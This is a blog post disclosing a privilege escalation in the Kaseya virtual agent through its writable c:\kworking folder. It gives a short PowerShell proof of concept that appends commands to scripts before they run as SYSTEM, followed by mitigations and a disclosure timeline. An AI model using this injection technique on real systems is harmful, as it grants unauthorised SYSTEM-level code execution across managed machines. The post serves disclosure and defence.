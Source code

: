 ```yaml
---
layout: post
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
So this is the first time I've written about a security issue I've found. Previously they have been non issues or in niche products.
I decided to write about this as the vendor was extermely unresponsive and going through previous product CVEs it seems to be a
trait of the company, ignore the issue until an exploit is published. The other reason is that if a company is using this product then generally every machine is at risk. So I give you Kaseyas virtual agent.

<h3>Product</h3>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via deployed agents.
Its a competitor for Microsofts system center and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.

<h3>Vulnerability</h3>
This is not really a new issue as such but more an extension of <a herf="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue - it seems they didnt look at the root cause.
Excesive access to the working folder for an elevated account.

Kaseya agent has a working folder that defaults to <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk.
By default the any authenticate user can read / write this folder.

Scripts are not authenticated and are written to disk prior to execution.
So if the folder is monitored for script files being dropped an attacker just needs to append their own code prior to execution.

<h3>Impact</h3>
Given that the Kaseya virtual agent is an IT managment tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. However the vulnerability itself is reliant on code execution within the working folder and is dependant on scheduled tasks or an administrator executing tasks so the wait time can vary from 1 hour, a day or week.

If the working folder is commonly used with scripted commands this will be quite reliable for all systems - so the impact will vary dependant on an IT departments use of this.

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the Kaseya working directory.
When a ps1 script drops it will then append to the end the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
If you are using Kaseya all scripts should be signed and verified prior to execution eliminiating the ability to append arbitary commands. Additionally Kaseya should remove the excesive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requsting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-07-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
